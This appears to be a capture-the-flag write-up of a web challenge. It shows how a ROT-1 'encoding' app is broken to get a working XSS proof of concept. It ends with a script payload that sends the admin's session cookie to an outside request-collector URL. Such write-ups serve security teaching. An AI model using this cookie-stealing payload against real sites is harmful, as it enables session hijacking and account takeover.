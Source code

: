 # KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

# Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](../images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) with a combination we don't know yet.

![2](../images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it

![3](../images/kff_3.png)

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try to get some XSS working!

![4](../images/kff_4.png)

```;rbqhos=`kdqs'!Gdkkn}Vnqkc~!(;.rbqhos=``` equals ```alert("Hello World!")```


Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=:` is the listening server we control and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```



![5](../images/kff_5.png)

[Go back to Web challenges](./)
